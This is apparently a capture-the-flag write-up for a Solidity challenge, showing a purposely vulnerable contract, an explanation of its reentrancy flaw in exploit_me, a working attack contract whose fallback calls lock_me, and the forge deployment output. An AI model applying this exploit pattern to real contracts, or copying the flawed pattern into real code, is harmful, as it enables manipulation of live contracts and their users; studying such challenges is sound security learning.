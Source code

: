 # Task

1) The goal of this challenge is to be able to add your address to the array of winners.
2) Make the getAllwiners function incude your name in the array of winners.

# Contract Address
   
0x771F8f8FD270eD99db6a3B5B7e1d9f6417394249

# Contract 

```sol
// SPDX-License-Identifier: UNLICENSED

pragma solidity 0.8.13;

contract Challenge {
    address owner;
    address[] public winners;
    mapping(address => bool) public HasInteracted;
    mapping(address => string) public Names;
    bool lock;
    bool isPause;

    constructor() {
        owner = msg.sender;
    }

    function exploit_me(string memory _name) public {
        require(!isPause);
        lock = false;

        msg.sender.call("");

        require(lock);
        require(
            HasInteracted[msg.sender] == false,
            "This address has interacted before"
        );

        HasInteracted[msg.sender] = true;
        winners.push(tx.origin);
        string memory name_ = Names[tx.origin];
        require(
            keccak256(abi.encode(name_)) == keccak256(abi.encode("")),
            "Not a unique winner"
        );
        Names[tx.origin] = _name;
    }

    function lock_me() public {
        lock = true;
    }

    function pause(bool _status) external {
        require(msg.sender == owner);
        isPause = _status;
    }

    function getAllwiners() external view returns (string[] memory _names) {
        _names = new string[](winners.length);
        for (uint i; i < winners.length; i++) {
            _names[i] = Names[winners[i]];
        }
    }
}
```
### Key Observations

1. **Pause and Lock Mechanisms**: The function `exploit_me` requires `isPause` to be `false`. Additionally, the `lock` variable is set to `false` at the beginning of the function, which must be changed to `true` for the function to proceed, achieved through calling `lock_me`.
    
2. **Reentrancy Vulnerability**: `msg.sender.call("")` is an external call that allows reentrancy. In this case, you could call `lock_me` within a fallback function to set `lock` to `true`, enabling the rest of the function's execution.
    
3. **Unique Winner Condition**: The function ensures that only unique addresses are added as winners by checking if the name is empty in the `Names` mapping. This prevents duplicate entries.

Since we've identified the vulnerability, lets cook our attack contract

# Attack Contract

```sol
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.13;

import "../src/winner.sol";

contract attackWinner {
    bool public toggle;
    Challenge public attack;

    constructor(address _targetaddr) {
        attack = Challenge(_targetaddr);
    }

    function bankai(string memory _name) external {
        attack.exploit_me(_name);
    }

    fallback() external payable {
        if (!toggle) {
            toggle = true;
            attack.lock_me();
        }
    }


}
```
The `attackWinner` contract exploits a reentrancy vulnerability in the `Challenge` contract by using a fallback function. Here’s a concise breakdown:

1. **`attackWinner` Constructor**: Initializes the contract with the address of the target `Challenge` contract.
    
2. **`bankai` Function**: Calls `exploit_me` on `Challenge`, passing a name to start the exploit.
    
3. **Fallback Function**: Triggered during reentrancy, it toggles `lock` in the `Challenge` contract by calling `lock_me`, bypassing a security check in `exploit_me`.
    

In summary, `attackWinner` uses reentrancy to manipulate `lock` in `Challenge`, allowing it to add itself to the winners list in `Challenge`.

Lets deploy the attack contract using foundry forge

```
┌──(bl4ck4non💀bl4ck4non-sec)-[~/Documents/web3/foundry/learninggg_foundryyyy]
└─$ forge create --private-key $PRIVATE_KEY src/attackWinner.sol:attackWinner --constructor-args "0x771F8f8FD270eD99db6a3B5B7e1d9f6417394249" 
[⠊] Compiling...
No files changed, compilation skipped
Deployer: 0x296f076DB25846579300E2F89aCBC20bcd96fd3c
Deployed to: 0x1BfEF0b68F985a26aDB235afA2Ab86514f6DeDC8
Transaction hash: 0x650f0540f8ab4636da94695032be758ae909ca136cad42ec4d55b0472cc9ebac
```

![image](https://github.com/user-attachments/assets/0077e574-ab0a-423e-aa56-60cbe4ae24b4)

Now, lets call the `getAllwiners()` function

![image](https://github.com/user-attachments/assets/65a0b6cb-b295-414c-8a1a-f5b9527287ef)

As you can see from the above screenshot my name `:xD` is included in the array of winners

This challenge has been successfully completed

---------------------------

Till Next Time :xD






















